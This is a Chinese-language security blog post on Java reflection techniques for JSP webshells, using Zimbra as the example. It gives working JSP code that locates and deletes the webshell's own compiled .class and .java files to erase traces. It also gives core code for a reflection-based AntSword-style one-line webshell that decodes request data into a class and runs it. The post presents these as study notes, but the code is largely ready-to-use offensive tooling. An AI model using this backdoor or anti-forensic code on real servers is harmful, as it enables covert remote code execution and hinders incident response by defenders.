 ```yaml
---
layout: post
title: Java利用技巧——通过反射实现webshell编译文件的自删除
---
```



## 0x00 前言
---

我们知道，当我们访问jsp文件时，Java环境会先将jsp文件转换成`.class`字节码文件，再由Java虚拟机进行加载，这导致了Java服务器上会生成对应名称的`.class`字节码文件。对于webshell，这会留下痕迹。
为了实现自删除`.class`字节码文件，我们可以通过反射获得`.class`字节码文件的路径，再进行删除。本文将以Zimbra环境为例，结合[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)，分析利用思路。

## 0x01 简介
---

本文将要介绍以下内容：

- 通过反射实现webshell编译文件的自删除
- 通过反射实现AntSword-JSP-Template

## 0x02 通过反射实现webshell编译文件的自删除
---

根据上篇文章《Java利用技巧——通过反射修改属性》的内容，我们按照映射`request`->`_scope`->`_servlet`->`rctxt`->`jsps`，通过多次反射最终能够获得JspServletWrapper实例

查看JspServletWrapper类中的成员，`jsps`->`value`->`ctxt`->`servletJavaFileName`保存`.java`编译文件的路径，`jsps`->`value`->`ctxt`->`classFileName`保存`.class`编译文件的路径，示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-1-12/2-1.png)

为了只筛选出当前jsp，可以通过request类的`getServletPath()`方法获得当前Servlet，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-1-12/2-2.png)

从ctxt对象获取servletJavaFileName可以调用JspCompilationContext类的`getServletJavaFileName()`方法，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-1-12/2-3.png)

从ctxt对象获取classFileName可以调用JspCompilationContext类的`getClassFileName()`方法，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-1-12/2-4.png)

综上，由此我们可以得出通过反射获取编译文件路径的实现代码如下：

```
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.ConcurrentHashMap" %>
<%@ page import="java.util.*" %>
<%@ page import="org.apache.jasper.servlet.JspServletWrapper" %>
<%@ page import="org.apache.jasper.JspCompilationContext" %>
<%       
    Field f = request.getClass().getDeclaredField("_scope");
    f.setAccessible(true);  
    Object obj1 = f.get(request);
    f = obj1.getClass().getDeclaredField("_servlet");
    f.setAccessible(true);
    Object obj2 = f.get(obj1);
    f = obj2.getClass().getSuperclass().getDeclaredField("rctxt");
    f.setAccessible(true);
    Object obj3 = f.get(obj2);
    f = obj3.getClass().getDeclaredField("jsps");
    f.setAccessible(true);
    ConcurrentHashMap obj4 = (ConcurrentHashMap)f.get(obj3);   
    JspServletWrapper jsw = (JspServletWrapper)obj4.get(request.getServletPath());
    JspCompilationContext ctxt = jsw.getJspEngineContext();
    out.println(ctxt.getServletJavaFileName());
    out.println(ctxt.getClassFileName());
%>
```

删除编译文件的代码如下：

```
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.ConcurrentHashMap" %>
<%@ page import="java.util.*" %>
<%@ page import="org.apache.jasper.servlet.JspServletWrapper" %>
<%@ page import="org.apache.jasper.JspCompilationContext" %>
<%@ page import="java.io.File" %>
<%       
    Field f = request.getClass().getDeclaredField("_scope");
    f.setAccessible(true);  
    Object obj1 = f.get(request);
    f = obj1.getClass().getDeclaredField("_servlet");
    f.setAccessible(true);
    Object obj2 = f.get(obj1);
    f = obj2.getClass().getSuperclass().getDeclaredField("rctxt");
    f.setAccessible(true);
    Object obj3 = f.get(obj2);
    f = obj3.getClass().getDeclaredField("jsps");
    f.setAccessible(true);
    ConcurrentHashMap obj4 = (ConcurrentHashMap)f.get(obj3);   
    JspServletWrapper jsw = (JspServletWrapper)obj4.get(request.getServletPath());
    JspCompilationContext ctxt = jsw.getJspEngineContext();
    File targetFile;
    targetFile = new File(ctxt.getClassFileName());
    targetFile.delete();
    targetFile = new File(ctxt.getServletJavaFileName());
    targetFile.delete();
%>
```

## 0x03 通过反射实现AntSword-JSP-Template
---

rebeyond在[《利用动态二进制加密实现新型一句话木马之Java篇》](https://xz.aliyun.com/t/2744)介绍了Java一句话木马的实现方法，[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)也采用了相同的方式

我在测试[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)的过程中，发现编译文件会多出一个，例如`test.jsp`，访问后，生成的编译文件为`test_jsp.class`和`test_jsp.java`，如果使用了[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)，会额外生成编译文件`test_jsp$U.class`

rebeyond在[《利用动态二进制加密实现新型一句话木马之Java篇》](https://xz.aliyun.com/t/2744)提到：

> “正常情况下，Java并没有提供直接解析class字节数组的接口。不过classloader内部实现了一个protected的defineClass方法，可以将byte[]直接转换为Class
因为该方法是protected的，我们没办法在外部直接调用，当然我们可以通过反射来修改保护属性，不过我们选择一个更方便的方法，直接自定义一个类继承classloader，然后在子类中调用父类的defineClass方法。”

这里我打算通过反射修改保护属性，调用ClassLoader类的`defineClass()`方法

在ClassLoader类中，`defineClass()`方法有多个重载，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-1-12/3-1.png)

这里选择`defineClass(byte[] b, int off, int len)`

rebeyond在[《利用动态二进制加密实现新型一句话木马之Java篇》](https://xz.aliyun.com/t/2744)还提到：

> “如果想要顺利的在equals中调用Request、Response、Seesion这几个对象，还需要考虑一个问题，那就是ClassLoader的问题。JVM是通过ClassLoader+类路径来标识一个类的唯一性的。我们通过调用自定义ClassLoader来defineClass出来的类与Request、Response、Seesion这些类的ClassLoader不是同一个，所以在equals中访问这些类会出现java.lang.ClassNotFoundException异常”

解决方法同样是复写ClassLoader的如下构造函数，传递一个指定的ClassLoader实例进去：

```
ClassLoader loader = new ClassLoader(getClass().getClassLoader()) {};
```

最终，得到通过反射实现[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)的核心代码：

```
Method d= ClassLoader.class.getDeclaredMethod("defineClass",byte[].class, int.class, int.class);
d.setAccessible(true);
ClassLoader loader = new ClassLoader(getClass().getClassLoader) {};
Class result = (Class) d.invoke(loader, base64Decode(data),0,base64Decode(data).length); 
result.newInstance().equals(pageContext);
```

访问通过反射实现[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)的`test.jsp`后，额外生成的编译文件为`test_jsp$1.class`

## 0x04 小结
---

本文介绍了通过反射实现webshell编译文件自删除和[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)，记录关于反射的学习心得。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)




